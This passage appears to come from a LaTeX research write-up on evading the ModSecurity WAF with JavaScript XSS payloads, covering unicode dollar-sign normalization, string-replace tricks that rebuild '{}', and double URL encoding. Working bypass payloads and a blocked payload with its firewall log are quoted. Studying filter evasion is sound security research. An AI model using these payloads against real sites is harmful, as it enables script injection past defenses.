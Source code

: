 If the webserver is using unicode normalization (NFKC) to normalize incoming requests, the character \verb|$| can also be replaced with another character in unicode that gets normalized to it to create a valid bypassing payload. It was tested with the small dollar sign U+FE69. 



\subsubsection{Avoiding \{\}}
A payload thats not using any \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string replace. The example payload in Listing~\ref{lst:stringreplaceblocked} is being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} example, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

If one uses a string replace strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=string replace to evade {} detection, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evades the firewall.


\subsubsection{Double Percent encoding}
On usage of double url encoding (see Listing~\ref{lst:doubleurlencodedexample}), the above mentioned rule with message  does no longer trigger. The characters \verb|alert(| still trigger . substituting \verb|alert()| with \verb|prompt()| and using a tagged template literal instead of calling with \verb|()| will allow to successfully pass a payload that evades detection and is able to display the template parameter. however, this payload would not be valid unless the target performs multiple step url decoding.

\begin{lstlisting}[style=basicStyle, caption=url encoded example pass, label={lst:doubleurlencodedexample}]
encodeURIComponent(encodeURIComponent('alert(`${new Date()}`)'))
=
alert(%2560%2524%257Bnew%2520Date()%257D%2560)
\end{lstlisting}
